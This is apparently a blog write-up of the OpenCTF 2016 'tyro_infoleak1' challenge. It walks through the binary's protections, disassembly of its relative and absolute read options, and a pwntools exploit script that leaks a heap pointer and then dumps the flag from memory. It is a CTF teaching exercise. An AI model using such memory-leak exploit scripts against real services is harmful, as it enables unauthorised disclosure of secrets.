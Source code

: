 ```yaml
---
layout: post
title: OpenCTF 2016 - Tyro Infoleak1
---
```


This is a writeup for **tyro_infoleak1** which was the first part of a 3 part challenge involving, as the challenge name suggests, info leaks. 

{% highlight text %}
Baby's first infoleak (do you even really need the binary?) (https://en.wikipedia.org/wiki/Information_leakage)
Server: 172.31.1.36:1616
Binary: 172.31.0.10/tyro_infoleak1_bdc3f08dab986b30317b0937a096d794
{% endhighlight %}

Ignoring the challenge description, we can download the binary and run checksec on it to determine which memory protections it is compiled with.

{% highlight bash %}
$ checksec tyro_infoleak1
[*] 'openctf16/tyro_infoleak1'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
{% endhighlight %}

When we run the program, we are presented with the following  

{% highlight text %}
$ ./tyro_infoleak1 
OpenCTF tyro info leak 2

ASLR is on, the binary is PIE
Can you read the flag?
1)relative read
2)absolute read
{% endhighlight %}

Basically, this program provides us with 2 functions: the ability perform a relative read, and the ability to perform an absolute read. 

## Relative Read

{% highlight text %}
.text:00000A46                 mov     dword ptr [esp], offset Offset ; "Offset: "
.text:00000A4D                 call    printf
.text:00000A52                 lea     eax, [esp+14h]
.text:00000A56                 mov     [esp+4], eax
.text:00000A5A                 mov     dword ptr [esp], offset fmtstr_x ; "%x"
.text:00000A61                 call    __isoc99_scanf  ; scanf("%x", &i);
.text:00000A66                 lea     edx, [esp+14h]
.text:00000A6A                 mov     eax, [esp+14h]
.text:00000A6E                 add     eax, edx        ; eax = &i+i
.text:00000A70                 mov     [esp+14h], eax
.text:00000A74                 mov     eax, [esp+14h]
.text:00000A78                 mov     eax, [eax]
.text:00000A7A                 mov     [esp+4], eax
.text:00000A7E                 mov     dword ptr [esp], offset fmtstr_p ; "%p\n"
.text:00000A85                 call    printf          ; printf("%p\n", *(&i+i))
.text:00000A8A                 jmp     short loc_AE5
{% endhighlight %}

All this basic block does is ask the user to specify an offset, which it uses to calculate the address located at that offset from a local variable, `i`, and prints out 4 bytes of whatever data is stored there. 


## Absolute Read

{% highlight text %}
.text:00000A8C loc_A8C:                                ; CODE XREF: main+F9j
.text:00000A8C                 mov     eax, [esp+14h]
.text:00000A90                 cmp     eax, 2
.text:00000A93                 jnz     short loc_ACD
.text:00000A95                 mov     dword ptr [esp], offset aAbsoluteAddres ; "Absolute address to read from: "
.text:00000A9C                 call    printf
.text:00000AA1                 lea     eax, [esp+14h]
.text:00000AA5                 mov     [esp+4], eax
.text:00000AA9                 mov     dword ptr [esp], offset fmtstr_x ; "%x"
.text:00000AB0                 call    __isoc99_scanf
.text:00000AB5                 mov     eax, [esp+14h]
.text:00000AB9                 mov     eax, [eax]
.text:00000ABB                 mov     [esp+4], eax
.text:00000ABF                 mov     dword ptr [esp], offset fmtstr_p ; "%p\n"
.text:00000AC6                 call    printf
.text:00000ACB                 jmp     short loc_AE5
.text:00000ACD ; ---------------------------------------------------------------------------
.text:00000ACD
.text:00000ACD loc_ACD:                                ; CODE XREF: main+148j
.text:00000ACD                 mov     dword ptr [esp], offset aWat ; "wat!"
.text:00000AD4                 call    puts
.text:00000AD9                 mov     dword ptr [esp], 0 ; status
.text:00000AE0                 call    exit
{% endhighlight %}

The Absolute Read code path simply asks the user to specify an address to read from and prints 4 bytes of whatever data is stored at the specified address.   

So, we have both a 4-byte relative infoleak primitive as well as a 4-byte absolute infoleak primitive. 

If we take a look at the preceding initialization code, we can see how we can leverage these two primitives to leak the contents of the flag.

## Initialization Flow

{% highlight text %}
.text:0000094B                 push    ebp
.text:0000094C                 mov     ebp, esp
.text:0000094E                 and     esp, 0FFFFFFF0h
.text:00000951                 sub     esp, 20h
.text:00000954                 mov     dword ptr [esp], 100h ; size
.text:0000095B                 call    malloc
.text:00000960                 mov     [esp+18h], eax
.text:00000964                 mov     dword ptr [esp], 1Eh ; seconds
.text:0000096B                 call    alarm
.text:00000970                 mov     eax, ds:stdin
.text:00000975                 mov     dword ptr [esp+4], 0 ; buf
.text:0000097D                 mov     [esp], eax      ; stream
.text:00000980                 call    setbuf
.text:00000985                 mov     eax, ds:stdout
.text:0000098A                 mov     dword ptr [esp+4], 0 ; buf
.text:00000992                 mov     [esp], eax      ; stream
.text:00000995                 call    setbuf
.text:0000099A                 mov     dword ptr [esp+4], 0 ; oflag
.text:000009A2                 mov     dword ptr [esp], offset file ; "/home/challenge/flag"
.text:000009A9                 call    open
.text:000009AE                 mov     [esp+1Ch], eax
.text:000009B2                 cmp     dword ptr [esp+1Ch], 0FFFFFFFFh
.text:000009B7                 jnz     short loc_9D1
.text:000009B9                 mov     dword ptr [esp], offset s ; "Can't open flag"
.text:000009C0                 call    puts
.text:000009C5                 mov     dword ptr [esp], 0 ; status
.text:000009CC                 call    exit
.text:000009D1 ; ---------------------------------------------------------------------------
.text:000009D1
.text:000009D1 loc_9D1:                                ; CODE XREF: main+6Cj
.text:000009D1                 mov     dword ptr [esp+8], 100h ; nbytes
.text:000009D9                 mov     eax, [esp+18h]
.text:000009DD                 mov     [esp+4], eax    ; buf
.text:000009E1                 mov     eax, [esp+1Ch]
.text:000009E5                 mov     [esp], eax      ; fd
.text:000009E8                 call    read
.text:000009ED                 mov     eax, [esp+1Ch]
.text:000009F1                 mov     [esp], eax      ; fd
.text:000009F4                 call    close
.text:000009F9                 mov     dword ptr [esp], offset aOpenctfTyroInf ; "OpenCTF tyro info leak 2\n"
.text:00000A00                 call    puts
.text:00000A05                 mov     dword ptr [esp], offset aAslrIsOnTheBin ; "ASLR is on, the binary is PIE"
.text:00000A0C                 call    puts
.text:00000A11                 mov     dword ptr [esp], offset aCanYouReadTheF ; "Can you read the flag?"
.text:00000A18                 call    puts
{% endhighlight %}

We can see that when the function is initialized, a chunk of memory is requested and allocated on the heap via `malloc(0x100)`, which is subsequently used to store the contents of the flag after calling `read()`. 

We can use our relative infoleak primitive to first, leak the address of the `malloc()`'d heap chunk, and then use our absolute infoleak primitive to leak the contents of the flag 4 bytes at a time. The following script achieves this.

## Solution 

{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def relative_read():
        r.sendline("1")
        r.recvuntil(": ")
        r.sendline("4")
        return int(r.recv(10),0)

def absolute_read(flag_loc):
        r.sendline("2")
        r.recvuntil(": ")
        r.sendline(str(flag_loc))
        return int(r.recvline(10),0)

def exploit(r):
        r.recvuntil("2)absolute read\n")
        flag_loc = relative_read()
        flag=""

        while(1):
                r.recvuntil("2)absolute read\n")
                try:
                        flag+=pack(absolute_read(hex(flag_loc)),32, 'big', True)
                        flag_loc+=4
                except:
                        print flag
                        break
        #r.interactive()

if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/home/rh0gue/Documents/openctf16/tyro_infoleak1'])
        print util.proc.pidof(r)
        pause()
        exploit(r)
{% endhighlight %}
